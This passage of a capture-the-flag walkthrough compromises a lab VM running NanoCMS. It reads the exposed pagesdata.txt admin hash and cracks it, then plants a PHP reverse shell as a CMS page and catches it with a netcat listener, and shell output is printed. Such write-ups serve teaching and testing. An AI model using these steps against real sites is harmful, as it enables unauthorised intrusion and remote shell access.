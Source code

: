 Tampering with the about page URL <code>http://192.168.80.154/?page=about</code> gives errors, so LFI might be possible

The blog page also has an admin login page and another Squirrel Mail page:

{% img center /images/pentest/ctf5/blog.png 'blog' 'blog' %}

The contact form allows you to send a message to the staff, and there is another app that acts as an event manager:

{% img center /images/pentest/ctf5/event.png 'event manager' 'event planner' %}

Also, on port 901 there is a Samba SWAT server protected by basic authentication. This server provides a web-based interface for configuring Samba.

### Exploiting the CMS

I made an account on the event manager, but that doesn't seem to help me much besides creating new blog posts. Next I tested to see if there might be any SQLi in the contact form, but no luck there either. And despite the path traversal error, I wasn't able to navigate to any arbitrary files on the system.

It turns out I had actually overlooked an important information. On Andy Carp's blog, we can see the site is powered by NanoCMS. I noticed it but I didn't give it any thought. When I finally thought to click on it and learn more, it took me to a domain-for-sale page, so I figured it might be some simulated CMS created for this challenge only. Good that I thought to google it and see how wrong I was :p [NanoCMS](https://github.com/kalyan02/NanoCMS) is a lightweight CMS based on PHP that is now discontinued. However, I found a super useful [NanoCMS security review](http://www.madirish.net/304) that made possible the compromising of the target ;)

Among the vulnerabilities present in the CMS, there is one that allows unrestricted access to the <code>/data/pagesdata.txt</code>. This file contains the username and password hash of the administrator:

``` plain
a:12:{s:8:"homepage";s:1:"1";s:10:"links_cats";a:4:{s:7:"sidebar";a:2:{i:0;i:1;i:1;i:4;}s:11:"other-pages";a:0:{}s:14:"top-navigation";a:2:{i:0;s:1:"1";i:1;s:1:"4";}s:12:"Footer-Right";a:2:{i:0;s:1:"1";i:1;s:1:"4";}}s:5:"slugs";a:2:{i:1;s:4:"home";i:4;s:7:"contact";}s:6:"titles";a:2:{i:1;s:4:"Home";i:4;s:7:"Contact";}s:10:"slug_count";i:11;s:8:"settings";a:3:{s:19:"index-last-modified";i:1234513760;s:18:"def-template-areas";a:4:{i:0;s:12:"website name";i:2;s:14:"website slogan";i:3;s:16:"below navigation";i:4;s:16:"copyright notice";}s:18:"def-template-links";a:2:{i:0;s:14:"top-navigation";i:1;s:12:"Footer-Right";}}s:13:"active-tweaks";a:2:{i:0;s:7:"deutsch";i:1;s:19:"language-pack-tweak";}s:11:"lang-select";s:7:"english";s:6:"seourl";s:1:"0";s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";s:7:"version";s:4:"v_4f";}
```

I cracked the hash with my favorite [online cracker](https://hashkiller.co.uk/md5-decrypter.aspx) and found out the password is *shannon*. Next, I logged in to the admin panel:

{% img center /images/pentest/ctf5/nanocms.png 'nanocms admin panel' 'admin panel' %}

Now we have the ability to add new pages with our own PHP code. I used [pentestmonkey's reverse PHP shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). I changed the IP and port, and set up a netcat listener to catch the reverse connection. Then I clicked on the newly created page on the blog and looked to my netcat for the goodies:

``` plain
nc -vvnlp 5555
listening on [any] 5555 ...
connect to [192.168.80.155] from (UNKNOWN) [192.168.80.154] 43028
Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux
 11:02:41 up  3:30,  0 users,  load average: 0.24, 0.05, 0.02
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-3.2$ whoami
apache
```
